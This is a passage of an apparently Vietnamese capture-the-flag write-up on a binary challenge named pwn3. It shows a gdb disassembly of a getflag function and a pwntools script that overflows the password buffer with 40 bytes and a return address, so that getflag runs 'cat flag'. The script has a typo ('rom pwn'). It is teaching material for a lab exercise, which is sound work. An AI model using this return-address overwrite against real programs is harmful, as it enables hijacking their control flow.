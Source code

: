 ## Mã assembly của hàm getflag
```
gdb-peda$ pdisass getflag
Dump of assembler code for function getflag:
   0x0000000000400756 <+0>:	push   rbp
   0x0000000000400757 <+1>:	mov    rbp,rsp
   0x000000000040075a <+4>:	mov    edi,0x400988
   0x000000000040075f <+9>:	call   0x4005d0 <puts@plt>
   0x0000000000400764 <+14>:	mov    edi,0x4009ad
   0x0000000000400769 <+19>:	call   0x4005e0 <system@plt>
   0x000000000040076e <+24>:	nop
   0x000000000040076f <+25>:	pop    rbp
   0x0000000000400770 <+26>:	ret    
End of assembler dump.
```

Địa chỉ của hàm flag nằm ở `0x0000000000400756`, mục đích của chúng ta là thay thế `ABCDABCD` ở trên bằng địa chỉ của hàm **getflag**, để khi chương trình gọi hàm **check_login** xong sẽ gọi hàm **getflag** và `cat flag` cho chúng ta.

Script solve.py
```python
rom pwn import *
p = process('./pwn3')
p.recvuntil('Input username:> ')
p.sendline('admin')
p.recvuntil('Input password:> ')
getflag_addr = 0x0000000000400756
p.sendline(b'A'* 40 + p64(getflag_addr))
print(str(p.recv(1024), 'utf-8'))
```
